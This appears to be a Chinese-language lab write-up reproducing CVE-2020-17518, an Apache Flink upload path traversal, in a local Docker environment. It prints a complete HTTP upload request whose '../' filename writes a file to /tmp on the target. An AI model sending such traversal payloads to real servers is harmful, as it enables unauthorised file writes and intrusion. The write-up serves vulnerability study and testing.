

# Apache Flink 上传路径穿越漏洞（CVE-2020-17518）

Apache Flink 是一个开源的分布式流处理和批处理大数据计算引擎。

Apache Flink 1.5.1 版本引入了一个 REST handler，攻击者可以通过恶意修改 HTTP HEADER，实现将上传的文件写入到本地文件系统的任意位置。该问题在 Apache Flink 1.11.3 版本中得到修复。

参考链接：

- <https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4>
- <https://nvd.nist.gov/vuln/detail/CVE-2020-17518>

## 环境搭建

执行如下命令启动一个 Apache Flink jobmanager 1.11.2：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8081` 即可查看到 Apache Flink 的管理页面。

## 漏洞复现

发送如下数据包，即可上传一个文件到目标服务器的 `/tmp/success` 位置：

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

上传成功后，即可在目标服务器上查看到 `/tmp/success` 文件：


